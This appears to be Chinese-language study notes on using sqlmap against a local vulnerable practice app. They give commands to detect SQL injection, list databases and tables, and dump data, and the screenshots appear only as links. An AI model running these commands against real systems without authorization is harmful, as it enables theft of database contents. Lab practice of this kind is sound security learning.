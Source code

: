 ### 

#### 2.1sqlmap使用练习

http://127.0.0.1:7575/vul/sqli/sqli_str.php?name=1&submit=%E6%9F%A5%E8%AF%A2

##### 1、检测漏洞

```
sqlmap -u <url>
```

![image-20211227173511861](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gxsiybdcxkj30ic00x0sr.jpg)

> 存在以下漏洞



![image-20211227173543356](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsiyvg196j30he090jsj.jpg)

##### 2、查看数据库

```
sqlmap -u <url> --dbs 
```

![image-20211227173821158](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsj1n2fhoj30kg01774c.jpg)

> 存在以下数据库

![image-20211227173852106](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsj257wy7j305b05zq2y.jpg)

##### 3、查看数据表

```
sqlmap -u <url> -D <database_name> --tables
```

![image-20211227174117408](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsj4oiop8j30it01eglp.jpg)

> 存在以下数据表

![image-20211227174143655](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsj542xdkj303n04bq2t.jpg)

##### 4、查看数据

```
sqlmap -u <url> -D <database_name> --dump
```



![image-20211227174413779](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNgy1gxsj7qo55aj30wy0hmae7.jpg)



# 命令执行漏洞
